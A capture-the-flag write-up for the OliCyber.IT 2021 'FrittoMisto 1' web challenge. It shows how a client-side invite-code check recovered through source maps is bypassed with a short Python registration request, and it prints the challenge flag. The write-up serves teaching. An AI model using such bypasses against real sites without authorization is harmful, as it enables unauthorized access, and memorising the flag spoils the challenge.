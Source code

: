 # OliCyber.IT 2021 – National Competition

## FrittoMisto 1 - Writeup

## Challenge description
```
Il Gabibbo ha contattato diversi sviluppatori per sistemare il design del suo sito, tuttavia sembra si sia dimenticato di invitarci, riesci a farci qualcosa?

Sito: http://frittomisto.challs.olicyber.it/
```

The challenge presents a web application under construction, with the ability to register and access a private area.
However, in order to register, an **invite code** is required.

---

## Solution

When attempting to register, the error message *"Codice di invito invalido!"* (*Invalid invite code!*) appears **before** any request is sent to the API.
This indicates that the validation happens **client-side**.

While there may also be server-side validation, this client-side check can be reversed to discover the correct invite code.

The site is built using [React](https://reactjs.org/). Since the code is bundled with [Webpack](https://webpack.js.org/), the exported JavaScript is obfuscated. Fortunately, **source maps** are enabled, meaning the original `.js` files can be inspected through the browser DevTools.

Inside the code, we find the invite validation logic:

```js
if (inviteCode.length !== 10) {
  console.log("Codice di invito invalido!");
  props.setError("Codice di invito invalido!");
  return;
}
for (let idx = 0; idx < 10; idx++) {
  if (inviteCode.charCodeAt(idx) != idx) {
    console.log("Codice di invito invalido!");
    props.setError("Codice di invito invalido!");
    return;
  }
}
```

From this snippet we learn:

* The invite code must be exactly **10 characters long**.
* Each character must match the ASCII values `0x00, 0x01, ..., 0x09`.

Thus, the correct invite string is:

```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09
```

---

## Exploit

The simplest way to register is by making a direct API request with Python:

```python
import requests
import random
import string
import re

url = 'http://frittomisto.challs.olicyber.it/api/register'

username, password = ["".join(random.choices(string.ascii_uppercase + string.digits, k=10)) for _ in range(2)]

r=requests.post(url, json={
    "username": f"{username}",
    "password": f"{password}",
    "invite": "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09"
})

flag = re.findall(r'flag\{.*?}', r.text)
if flag:
    print(flag[0])
```
---
## Solution

By running the exploit we can retrieve the flag.
```
flag{b3nv3nut0_n3l_m10_f4nt4st1c0_s1t0_bu0n_l4v0r0}
```

---
## Key Takeaway

This challenge demonstrates the danger of relying on **client-side validation**. Even if server-side checks exist, leaving validation logic exposed in the frontend allows attackers to reverse-engineer it and recover the correct values.
